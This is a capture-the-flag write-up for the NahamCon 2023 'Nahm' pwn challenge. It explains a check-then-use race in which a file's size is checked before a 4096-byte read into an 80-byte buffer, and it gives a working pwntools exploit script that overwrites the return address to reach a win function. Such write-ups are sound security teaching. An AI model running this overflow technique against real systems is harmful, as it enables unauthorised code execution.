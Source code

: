 ```yaml
---
title: Nahm  , NahamCon 2023
author: megachar0x01
date: 2023-06-18
categories: [Pwn, amd64, ctf]
---
```



## Description :

The program is designed to work with a specific file. First, it prompts the user to enter the name of the file. If the file name matches the keyword "flag," the program terminates immediately. Otherwise, it proceeds to check the properties of the file. If the file is a symlink, an error is thrown indicating that it is a symlink file.

Next, the program verifies if the file size is less than 81 bytes. If the file size meets this condition, the program waits for user input. Once the user provides input, a function is executed to open the file and copy 4096 bytes into a buffer of 80 bytes, creating a potential buffer overflow situation.

To exploit this vulnerability, you can create a file with a size less than 80 bytes and wait until the program prompts for user input. At this point, you can add exploit code to the file, making sure it exceeds 80 bytes. Since no further checks are performed, the exploit code can grant you shell access.

## Vulnerable Code


<img src="https://i.imgur.com/L8YsI41.png" alt="vuln_1">
<img src="https://i.imgur.com/70Jbtf3.png" alt="img_1">
<img src="https://i.imgur.com/70Jbtf3.png" alt="img_1">
<img src="https://i.imgur.com/zWPibMU.png" alt="img_1">
<img src="https://i.imgur.com/ixymOko.png" alt="img_1">


## Protection


<img src="https://i.imgur.com/FxGtXUy.png" alt="img_1">


```python
#!/usr/bin/python3
from pwn import *
import struct

# Set the log level to control the verbosity of logs
context.log_level = 'error'

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
break *vuln+109
continue
'''.format(**locals())

# Define the path to the binary
exe = './bin'
elf = context.binary = ELF(exe, checksec=False)

# Create a payload for the exploit
payload = b""
payload += b"A"*80

# Write the payload to a file (function definition not provided)
write("1", payload)

# Start the process
io = start()

# Define the file path to send to the target binary
file_path = b"1"  # For remote server, use "/tmp/1"

# Send the file path to the target binary
io.sendlineafter(b"Enter file: ", file_path)

# Create another payload for the exploit
payload = b""
payload += b"A"*104
payload += p64(elf.sym.winning_function)

# Write the payload to a file
write("1", payload)  # For remote servers, use "/tmp/1" due to write permission in the home folder

# Send a newline character to the target binary
io.sendline()

# Switch to interactive mode to interact with the exploited binary
io.interactive()

```
